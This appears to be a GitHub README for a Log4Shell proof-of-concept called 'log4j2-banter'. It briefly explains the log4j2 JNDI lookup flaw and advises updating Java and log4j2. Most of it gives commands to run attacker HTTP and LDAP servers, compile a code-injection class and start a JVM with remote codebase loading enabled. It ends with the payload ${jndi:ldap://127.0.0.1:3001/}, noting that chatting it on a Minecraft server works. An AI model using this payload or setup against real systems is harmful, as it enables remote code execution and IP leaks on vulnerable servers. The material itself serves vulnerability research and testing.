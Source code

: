 # log4j2-banter

## Motivation
<p>This fundamental vulnerability was reported by [CVE-2018-3149](https://nvd.nist.gov/vuln/detail/CVE-2018-3149) and patched by [this article. (8u121 Release Notes)](https://www.oracle.com/java/technologies/javase/8u121-relnotes.html)</p>
<p>However, the logging library for java called log4j2 had [JNDILookup](https://github.com/apache/logging-log4j2/blob/20f9a97dbe5928c3b5077bcdd2a22ac92e941655/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/JndiLookup.java), which allowed access to protocols such as LDAP, which allowed code injection in older java versions.</p>
<p>Patched versions of java can prevent code injection, but `JNDILookup` makes request to ldap server, which can lead to IP leaks.</p>
<p>The solution is to update **Java** and **log4j2** versions.</p>

## Running
0. Install requirements
```
# system requirements => requirements.txt (gradle is not per say required, use any building tool with same output)
# npm requirements => npm-requirements.txt
cd http-server && npm install && cd ../ldap-server && npm install
```
1. run `http-server` and `ldap-server` both
```
cd http-server && node index.js 2>&1 &
cd ldap-server && node index.js 2>&1 &
```
2. Compile Main.java
```bash
# This will generate Main.java - required to code injection .
# OSx
./java-single-compile <Main.java>
# Linux 
javac <Main.java>
```
3. Start jvm with parameters
```bash
# You can still use log4j-client in repo for internal testing.
cd log4j-client &&\
		gradle jar &&\
		java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar build/libs/log4j-client-1.0-SNAPSHOT.jar
# Or run other application, com.sun.jndi.ldap.object.trustURLCodebase=true required for code injection, otherwise it will only request to ldap server.
java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar <javafile.jar>
```
4. Send payload to any parameters as the payload
(In minecraft, just chatting this will work if exploit's working.)
```
${jndi:ldap://127.0.0.1:3001/}
```
5. cleanup
```
NODEP=`pgrep node`
for id in $NODEP; do
    kill $id
done
```

## References
- https://github.com/apache/logging-log4j2/pull/608
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://github.com/NCSC-NL/log4shell
- https://github.com/ilsubyeega/log4j2-exploits/
- https://raw.githubusercontent.com/ferderplays/Log4j_exploit/main/Exploit.java

## License [GPL3]
See License in LICENSE
